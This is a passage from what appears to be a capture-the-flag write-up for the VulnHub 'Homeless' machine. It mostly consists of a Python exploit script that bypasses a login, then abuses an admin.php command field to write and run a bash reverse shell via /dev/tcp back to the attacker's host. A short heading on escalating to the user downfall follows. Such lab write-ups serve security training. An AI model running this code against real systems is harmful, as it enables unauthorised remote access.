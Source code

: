 ```py
0text%3A%207%0A%0AFinal." , "remember" : "1%26login%3DLogin"}
    payload_str = urllib.parse.urlencode(data, safe="%", encoding=None)
    r.post(url, headers=headers, data=payload_str, proxies=proxies)
    print("[+] Logged In ! [+]")

# Just get the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Let's Get Reverse Shell ! [+]")
    url = "http://%s:80/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    # Plant the malicous shell file
    data = {"command": "echo '#!/bin/bash\\n\\nbash -i >& /dev/tcp/%s/%s 0>&1' > /tmp/rev.sh" %(lhost,lport), "submit": "Submit Query"}
    r.post(url, headers=headers, cookies=r.cookies, data=data)
    # Execute it!
    data = {"command": "bash /tmp/rev.sh", "submit": "Submit Query"}
    r.post(url, headers=headers, cookies=r.cookies, data=data)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local IP', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Bypass the auth
    authBypass(rhost)
    # Plant and execute the reverse shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

### www-data -> Downfall

We need to become downfall now

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:21:54.png)

Remember a phrase from the box author:
